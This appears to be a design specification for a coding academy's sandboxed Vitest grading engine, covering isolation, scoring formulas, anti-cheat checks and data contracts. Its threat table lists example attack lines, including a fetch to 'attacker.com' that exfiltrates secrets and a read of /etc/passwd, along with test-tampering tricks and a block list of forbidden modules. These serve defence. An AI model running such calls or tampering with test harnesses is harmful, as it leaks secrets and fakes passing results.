





# Assessment & Code Execution Engine Specification
# AI-Native Software Engineering Academy (`ai-native-lms`)

**Document Version:** 1.0.0  
**Status:** Permanent Authoritative Engine Specification  
**Authority:** Principal Systems Architect & Head of Platform Engineering  
**Scope:** Sandbox Execution, Vitest Test Harness, Hidden Test Mutation, Weighted Scoring & Anti-Cheating  
**Classification:** Core Infrastructure Standard  
**Target Repository:** `ai-native-lms`  
**Effective Date:** September 30, 2026

---

## Table of Contents

1. [Executive Summary & Current State Remediation](#1-executive-summary--current-state-remediation)
2. [High-Level System Architecture](#2-high-level-system-architecture)
3. [Security, Threat Modeling & Sandbox Isolation](#3-security-threat-modeling--sandbox-isolation)
4. [End-to-End Execution Flow](#4-end-to-end-execution-flow)
5. [Scoring Flow & Mathematical Formulation](#5-scoring-flow--mathematical-formulation)
6. [Anti-Cheating & Integrity Control Subsystem](#6-anti-cheating--integrity-control-subsystem)
7. [System Data Contracts & Telemetry Interfaces](#7-system-data-contracts--telemetry-interfaces)
8. [Failure Modes & Recovery Runbook](#8-failure-modes--recovery-runbook)

---

## 1. Executive Summary & Current State Remediation

### 1.1 The Legacy Flaw: Keyword & String Pattern Matching
Prior iterations of the exercise submission validator utilized primitive heuristic keyword matching (e.g., `cleanCode.includes(pattern)` inside `ExerciseStateMachine.evaluateSubmission`). 

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                         CRITICAL DEFECTS OF KEYWORD MATCHING                           │
├────────────────────────────┬───────────────────────────────────────────────────────────┤
│ Comment Injection Exploits │ A learner typing `// function solve() { return true; }`   │
│                            │ passes as a working implementation without executing code.│
├────────────────────────────┼───────────────────────────────────────────────────────────┤
│ Hardcoded Return Spoofing  │ `return "exact_expected_string"` satisfies regex tests   │
│                            │ without implementing algorithmic or domain logic.         │
├────────────────────────────┼───────────────────────────────────────────────────────────┤
│ Zero Runtime Evaluation    │ Runtime exceptions, type mismatches, infinite recursions, │
│                            │ and memory leaks are completely invisible to the engine.  │
├────────────────────────────┼───────────────────────────────────────────────────────────┤
│ Zero Anti-Cheat Defense    │ Trivial copy-paste from LLM chatbots bypasses evaluation  │
│                            │ without validation of cognitive understanding.            │
└────────────────────────────┴───────────────────────────────────────────────────────────┘
```

### 1.2 The Replacement Architecture
This specification replaces heuristic string matching with a **Zero-Trust, Sandboxed Vitest Execution Engine**. Every code submission is compiled in an isolated ephemeral micro-container, evaluated against visible baseline assertions and hidden dynamic mutation suites, scored via a multi-tiered weighted algorithm, and sealed with cryptographic telemetry.



---

## 2. High-Level System Architecture

The Sandboxed Assessment Engine is structured into six decoupled operational subsystems:

```mermaid
graph TB
    subgraph Client Layer
        IDE["Learner Code Workspace"]
        STORE["Zustand Client Store"]
    end

    subgraph Ingress & Ingestion Layer
        GW["Next.js Route Handler / API Gateway"]
        AUTH["Supabase Auth JWT Token Validator"]
        RL["Distributed Token-Bucket Rate Limiter"]
    end

    subgraph Static Analysis & AST Filter
        PARSER["TypeScript Compiler AST Parser"]
        SEC_LINT["Forbidden Syscall & Import Linter"]
        FINGERPRINT["AST Structural Hashing Sentinel"]
    end

    subgraph Execution Orchestration Pool
        QUEUE["BullMQ / Redis Job Dispatcher"]
        SCHED["Ephemeral Worker Scheduler"]
        POOL["Warm Micro-VM / Container Pool"]
    end

    subgraph Sandboxed Runtime Environment
        subgraph Ephemeral Sandbox Container
            ISOL["gVisor / seccomp-bpf Jail"]
            MEM["64MB Memory Cap / 2500ms Timer"]
            FS["Read-Only Ephemeral Overlay FS"]
            RUNNER["Vitest Programmatic Runner"]
        end
    end

    subgraph Evaluation & Telemetry Sink
        SCORER["Weighted Assertion Scoring Engine"]
        CHEAT["Mutation & Anomaly Detection Unit"]
        EVID["Evidence & Competency Emitter"]
        DB[(PostgreSQL Database)]
    end

    IDE --> STORE
    STORE --> GW
    GW --> AUTH
    AUTH --> RL
    RL --> PARSER
    PARSER --> SEC_LINT
    SEC_LINT --> FINGERPRINT
    FINGERPRINT --> QUEUE
    QUEUE --> SCHED
    SCHED --> POOL
    POOL --> ISOL
    ISOL --> MEM
    MEM --> FS
    FS --> RUNNER
    RUNNER --> SCORER
    SCORER --> CHEAT
    CHEAT --> EVID
    EVID --> DB
```



### 2.1 Subsystem Responsibilities

1. **Ingress & Ingestion Layer**:
   - Authenticates learner session via Supabase JWT.
   - Enforces rate limits (maximum 6 submissions per minute per user).
   - Validates payload structure against Zod schema (`AssessmentSubmissionPayload`).

2. **Static Analysis & AST Security Gate**:
   - Parses submitted TypeScript into an Abstract Syntax Tree (AST).
   - Rejects uncompilable code prior to sandbox allocation, preserving worker capacity.
   - Scans AST for blacklisted identifiers, prototype poisoning, and illegal runtime imports.

3. **Execution Orchestration Pool**:
   - Manages warm pool of pre-warmed sandbox runners to maintain $< 800\text{ms}$ cold-start latency.
   - Enforces multi-tenant isolation; no sandbox container is ever reused across distinct submissions.

4. **Sandboxed Runtime Environment**:
   - Executes student submission in a restricted Node.js/Vitest environment.
   - Injects virtual modules containing test fixtures and immutable test runners.

5. **Evaluation & Telemetry Sink**:
   - Calculates weighted scores across visible tests and hidden mutation tests.
   - Evaluates anti-cheat flags and temporal heuristics.
   - Persists execution receipts to database and triggers competency state machine transitions.

---

## 3. Security, Threat Modeling & Sandbox Isolation

Executing untrusted user-submitted code requires strict multi-layered security controls. The execution engine treats all submissions as hostile.

```
┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                THREAT MATRIX & MITIGATION CONTROLS                               │
├────────────────────┬────────────────────────────────────┬────────────────────────────────────────┤
│ Threat Vector      │ Attack Scenario                    │ Architectural Mitigation               │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Remote Code Exec   │ `child_process.exec('curl ...')`   │ AST token filter + seccomp-bpf syscall  │
│ (RCE)              │ spawns shell on host server.       │ blocking (`fork`, `execve`, `clone`).  │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Resource Denial    │ `while(true) {}` or memory bomb    │ Hard 2,500ms CPU execution cutoff;     │
│ of Service (DoS)   │ exhausts server RAM/CPU threads.   │ 64MB memory ceiling via cgroups v2.    │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Data Exfiltration  │ `fetch('http://attacker.com', ...)`│ Network namespace unshared; zero       │
│ & SSRF             │ exfiltrates environment secrets.   │ outbound network interfaces (`net=none`)│
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Host Filesystem    │ `fs.readFileSync('/etc/passwd')`   │ Read-only ephemeral overlay filesystem;│
│ Compromise         │ reads host environment files.      │ host directory tree never mounted.     │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Prototype          │ `Object.prototype.polluted = true` │ Isolated V8 Context per execution;     │
│ Pollution          │ poisons shared testing harness.    │ context destroyed immediately on exit. │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Test Fixture       │ `expect = () => true` rewires      │ `vitest` globals frozen in protected   │
│ Tampering          │ global assertion library to pass.  │ non-writable execution realm.          │
└────────────────────┴────────────────────────────────────┴────────────────────────────────────────┘
```

### 3.1 Kernel Isolation Architecture



### 3.2 AST Static Security Policy
Prior to container invocation, the AST linter parses the submitted code and traverses all AST nodes. The submission is rejected immediately if any of the following node signatures are detected:

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              FORBIDDEN AST PATTERN MATRIX                              │
├─────────────────────────┬───────────────────────────────┬──────────────────────────────┤
│ AST Node Type           │ Target Identifier / Module    │ Reason for Rejection         │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ ImportDeclaration       │ `child_process`, `fs`, `net`, │ Node.js system module access │
│                         │ `http`, `https`, `tls`, `dgram│ is strictly forbidden.       │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ CallExpression          │ `eval()`, `Function()`,       │ Dynamic code evaluation      │
│                         │ `require()`, `import()`       │ subverts AST static analysis.│
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ MemberExpression        │ `process.env`, `process.exit`,│ Process control and secret   │
│                         │ `process.binding`, `global`   │ exfiltration prevention.     │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ AssignmentExpression    │ `Object.prototype`,           │ Prototype pollution guard.   │
│                         │ `Function.prototype`          │                              │
└─────────────────────────┴───────────────────────────────┴──────────────────────────────┘
```

---

## 4. End-to-End Execution Flow



### 4.1 Step-by-Step Execution Protocol

1. **Step 1: Ingestion & Throttling**:
   - The client emits an execution payload containing `exerciseId`, `codeString`, `clientTimestamp`, and `keystrokeEntropyHash`.
   - Ingress verifies rate limits using a Redis sliding-window algorithm.

2. **Step 2: AST Static Sanitization**:
   - The code is parsed with TypeScript compiler API in `isolatedModules` mode.
   - Any syntax error is returned directly to the learner with exact line/column indicators.
   - Forbidden node traversal returns a security fault rejection.

3. **Step 3: Virtual Harness Composition**:
   - The engine loads the exercise definition from database cache.
   - It composes an immutable test bundle containing:
     - `submission.ts`: The student's code wrapped in a strict module scope.
     - `visible.test.ts`: Public baseline specifications.
     - `hidden.test.ts`: Obfuscated boundary, edge-case, and mutation specifications.

4. **Step 4: Ephemeral Sandboxed Vitest Execution**:
   - The worker executes `vitest run --reporter=json` inside the memory-capped, network-disabled container.
   - A watchdog timer enforces the $2,500\text{ms}$ timeout. If exceeded, the process is sent `SIGKILL` and flagged as `EXECUTION_TIMEOUT`.

5. **Step 5: Telemetry Interception & Sanitization**:
   - Standard output and error streams are captured, sanitized (removing container paths and internal stack traces), and parsed into structured JSON assertions.

---

## 5. Scoring Flow & Mathematical Formulation

Evaluation is governed by a deterministic, multi-factor weighted scoring function that distinguishes basic functional execution from algorithmic resilience and edge-case mastery.



### 5.1 The Master Scoring Equation

The raw score $S_{\text{raw}}$ is defined as:

$$S_{\text{raw}} = \left( W_{\text{vis}} \cdot \frac{\sum_{i=1}^{N_{\text{vis}}} w_i^{\text{vis}} \cdot a_i^{\text{vis}}}{\sum_{i=1}^{N_{\text{vis}}} w_i^{\text{vis}}} \right) + \left( W_{\text{hid}} \cdot \frac{\sum_{j=1}^{N_{\text{hid}}} w_j^{\text{hid}} \cdot a_j^{\text{hid}}}{\sum_{j=1}^{N_{\text{hid}}} w_j^{\text{hid}}} \right)$$

Where:
- $W_{\text{vis}} = 0.40$ (Global weight assigned to visible baseline tests).
- $W_{\text{hid}} = 0.60$ (Global weight assigned to hidden mutation tests).
- $N_{\text{vis}}$ and $N_{\text{hid}}$ are the total number of visible and hidden test assertions.
- $w_i^{\text{vis}}$ and $w_j^{\text{hid}}$ are individual test assertion weight factors ($1 \le w \le 5$).
- $a_i \in \{0, 1\}$ represents assertion pass ($1$) or failure ($0$).

### 5.2 Penalties and Deductions ($P_{\text{deduct}}$)

The final score $S_{\text{final}}$ adjusts $S_{\text{raw}}$ by subtracting algorithmic and performance penalties:

$$S_{\text{final}} = \max\left(0, \min\left(100, S_{\text{raw}} - P_{\text{deduct}}\right)\right)$$

Where:

$$P_{\text{deduct}} = P_{\text{timeout}} + P_{\text{lint}} + P_{\text{retry\_decay}}$$

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              PENALTY FORMULATION TABLE                                 │
├─────────────────────────┬──────────────────────┬───────────────────────────────────────┤
│ Penalty Factor          │ Magnitude            │ Condition                             │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{timeout}}$    │ $100\%$ (Immediate 0)│ Execution exceeded 2,500ms hard cap.  │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{lint}}$       │ $5\%$ per violation  │ TypeScript strict type warnings or    │
│                         │ (capped at $15\%$)   │ unhandled promise rejections.         │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{retry\_decay}}$│ $2\%$ per attempt    │ Applied after 5th failed submission   │
│                         │ (capped at $10\%$)   │ on identical exercise within 24h.     │
└─────────────────────────┴──────────────────────┴───────────────────────────────────────┘
```

### 5.3 Mastery & State Machine Gating Thresholds

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                         ASSESSMENT MASTERY THRESHOLD MATRIX                            │
├───────────────────┬───────────────────┬────────────────────────────────────────────────┤
│ Mastery Tier      │ Score Range       │ State Machine & Competency Action              │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Fail / Rejected   │ $0 \le S < 90\%$  │ State remains `IN_PROGRESS` / `FAILED`.        │
│                   │                   │ Zero XP awarded. Competency score unchanged.   │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Validated Pass    │ $90\% \le S < 100\%$│ Transitions attempt to `VALIDATED`.          │
│                   │                   │ Standard XP awarded; Competency incremented.   │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Perfect Mastery   │ $S = 100\%$       │ Transitions to `COMPLETED` / `MASTERED`.       │
│ (Flawless Run)    │ (Zero deductions) │ Bonus +25 XP; Unlocks advanced reflection card.│
└───────────────────┴───────────────────┴────────────────────────────────────────────────┘
```

---

## 6. Anti-Cheating & Integrity Control Subsystem

To guarantee that credentials and competencies represent genuine engineering capability, the engine deploys five independent anti-cheating sentinels:



### 6.1 Sentinel Mechanics

1. **Dynamic Mutation Fuzzing (Anti-Hardcoding)**:
   - Hidden test suites do not test static values alone.
   - The harness injects randomized inputs generated via deterministic property-based generators (fuzzing).
   - If code passes hardcoded cases but fails fuzz tests, the submission is rejected with: `ALGORITHMIC_GENERALIZATION_FAILURE`.

2. **AST Structural Fingerprinting**:
   - Strips comments, whitespace, and variable renaming from the AST.
   - Generates a canonical subtree hash.
   - Compares the hash against the Academy's known repository of solution leaks and AI-generated common templates.

3. **Temporal Solvability Anomaly Detection**:
   - Calculates time elapsed between exercise opening and submission: $\Delta t = t_{\text{submit}} - t_{\text{opened}}$.
   - If $\Delta t < 15\text{s}$ for a multi-step engineering challenge with $> 50$ lines of code, the system flags the submission as `UNNATURAL_SOLVE_VELOCITY` and demands an interactive verbal defense or AI walkthrough prompt.

4. **Hardcoded Return Shortcut Detection**:
   - The test harness runs the student's solution with invalid inputs.
   - If the function returns the expected answer for input $A$ when supplied with input $B$, hardcoded pattern matching is detected.

5. **Mandatory Post-Execution Cognitive Reflection**:
   - Passing test execution unlocks the Reflection Modal.
   - The learner must provide written answers to two architectural questions regarding edge-case trade-offs.
   - The reflection is hashed and attached to the evidentiary audit log.

---

## 7. System Data Contracts & Telemetry Interfaces

### 7.1 Submission Request Contract (Zod Schema)

```typescript
import { z } from "zod";

export const AssessmentSubmissionSchema = z.object({
  exerciseId: z.string().uuid(),
  code: z.string().min(5).max(65536), // Max 64KB source code
  language: z.enum(["typescript", "javascript", "sql"]),
  clientTimestamp: z.number().int().positive(),
  entropyFingerprint: z.string().min(16),
  reflectionAnswers: z.object({
    tradeoffAnalysis: z.string().min(20).max(1000),
    failureModeAnalysis: z.string().min(20).max(1000),
  }).optional(),
});

export type AssessmentSubmissionPayload = z.infer<typeof AssessmentSubmissionSchema>;
```

### 7.2 Execution Report Contract (Engine &rarr; Database Sink)

```typescript
export interface AssertionTelemetry {
  id: string;
  name: string;
  suite: "visible" | "hidden";
  weight: number;
  passed: boolean;
  durationMs: number;
  errorMessage?: string;
}

export interface AssessmentExecutionReport {
  runId: string;
  exerciseId: string;
  userId: string;
  status: "PASSED" | "FAILED" | "TIMEOUT" | "SECURITY_VIOLATION" | "SYSTEM_ERROR";
  rawScore: number;
  finalScore: number;
  executionDurationMs: number;
  memoryUsageBytes: number;
  assertions: AssertionTelemetry[];
  antiCheatTelemetry: {
    mutationPassed: boolean;
    structuralEntropyScore: number;
    velocityAnomalyDetected: boolean;
    confidenceScore: number;
  };
  cryptographicSignature: string; // HMAC-SHA256 of run receipt
  createdAt: string;
}
```

### 7.3 Database Schema Migration (`assessment_engine`)

```sql
-- Migration: 20260930_assessment_engine_telemetry.sql
-- Description: Adds immutable audit tables for sandboxed code execution

CREATE TABLE IF NOT EXISTS public.assessment_runs (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id UUID NOT NULL REFERENCES auth.users(id) ON DELETE CASCADE,
    exercise_id UUID NOT NULL REFERENCES public.exercises(id) ON DELETE CASCADE,
    status VARCHAR(32) NOT NULL CHECK (status IN ('PASSED', 'FAILED', 'TIMEOUT', 'SECURITY_VIOLATION', 'SYSTEM_ERROR')),
    raw_score NUMERIC(5,2) NOT NULL CHECK (raw_score >= 0 AND raw_score <= 100),
    final_score NUMERIC(5,2) NOT NULL CHECK (final_score >= 0 AND final_score <= 100),
    execution_duration_ms INTEGER NOT NULL CHECK (execution_duration_ms >= 0),
    memory_usage_bytes BIGINT NOT NULL CHECK (memory_usage_bytes >= 0),
    anti_cheat_score NUMERIC(5,2) NOT NULL CHECK (anti_cheat_score >= 0 AND anti_cheat_score <= 100),
    signature VARCHAR(64) NOT NULL,
    metadata JSONB NOT NULL DEFAULT '{}'::jsonb,
    created_at TIMESTAMPTZ NOT NULL DEFAULT timezone('utc'::text, now())
);

-- RLS Enforcement
ALTER TABLE public.assessment_runs ENABLE ROW LEVEL SECURITY;

CREATE POLICY "Users can view their own assessment runs"
    ON public.assessment_runs FOR SELECT
    USING (auth.uid() = user_id);

CREATE POLICY "Service role can insert assessment runs"
    ON public.assessment_runs FOR INSERT
    WITH CHECK (true);

-- Performance Indexes
CREATE INDEX IF NOT EXISTS idx_assessment_runs_user_exercise 
    ON public.assessment_runs(user_id, exercise_id, created_at DESC);

CREATE INDEX IF NOT EXISTS idx_assessment_runs_status 
    ON public.assessment_runs(status);
```

---

## 8. Failure Modes & Recovery Runbook

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              SYSTEM FAILURE MODE RUNBOOK                               │
├─────────────────────────┬───────────────────────────────┬──────────────────────────────┤
│ Incident Scenario       │ Failure Symptom               │ Automated Recovery Procedure │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ Worker Pool Starvation  │ Queue depth > 50 jobs;        │ Auto-scale worker pool; shed │
│                         │ latency > 3,000ms.            │ unauthenticated test traffic;│
│                         │                               │ enable strict client backoff.│
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ Malicious VM Escape     │ Seccomp violation logged in   │ Worker immediately isolated; │
│ Attempt                 │ host kernel ring buffer.      │ container destroyed; user ID │
│                         │                               │ flagged for security audit.  │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ Database Telemetry Sink │ PostgreSQL connection timeout │ Write telemetry to Redis DLQ │
│ Outage                  │ during evidence emission.     │ with 24h retention; retry    │
│                         │                               │ asynchronously on reconnect. │
├─────────────────────────┼───────────────────────────────┼──────────────────────────────┤
│ Infinite Loop Deadlock  │ Worker CPU pinned at 100% for │ Watchdog thread fires        │
│ in Student Code         │ $> 2,500\text{ms}$.           │ `SIGKILL`; emits `TIMEOUT`   │
│                         │                               │ event back to queue manager. │
└─────────────────────────┴───────────────────────────────┴──────────────────────────────┘
```

By transitioning the Academy to this Sandboxed Vitest Execution Engine, the platform eliminates superficial keyword matching and establishes an uncompromised, mathematically rigorous standard of software engineering evaluation.
